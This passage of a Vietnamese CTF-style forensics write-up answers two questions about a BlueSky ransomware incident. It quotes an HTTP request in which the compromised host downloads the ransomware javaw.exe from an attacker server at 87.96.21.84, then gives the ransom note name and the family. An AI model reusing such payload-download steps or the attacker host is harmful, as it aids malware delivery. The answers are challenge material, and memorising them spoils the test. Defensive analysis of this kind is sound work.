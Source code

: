 

`extracted_hosts.txt`

## Q15

**After hash dumping, the attacker attempted to deploy ransomware on the compromised host, spreading it to the rest of the network through previous lateral movement activities using SMB. You’re provided with the ransomware sample for further analysis. By performing behavioral analysis, what’s the name of the ransom note file?**

Stream 1193 có tải file `javaw.exe` đây chính là ransomware được nhắc đến, export về và đưa lên [Virustotal](https://www.virustotal.com/gui/file/3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb/relations) để kiểm tra

```
GET /javaw.exe HTTP/1.1
Host: 87.96.21.84
Connection: Keep-Alive


HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.8
Date: Sun, 28 Apr 2024 00:32:14 GMT
Content-type: application/x-msdos-program
Content-Length: 72704
Last-Modified: Fri, 26 Apr 2024 08:44:02 GMT
```

Trong mục `Dropped Files` sẽ có ransome note

`# DECRYPT FILES BLUESKY #`

## Q16

**In some cases, decryption tools are available for specific ransomware families. Identifying the family name can lead to a potential decryption solution. What's the name of this ransomware family?**

Xem mục `Family labels` trên Virustotal

`BlueSky`
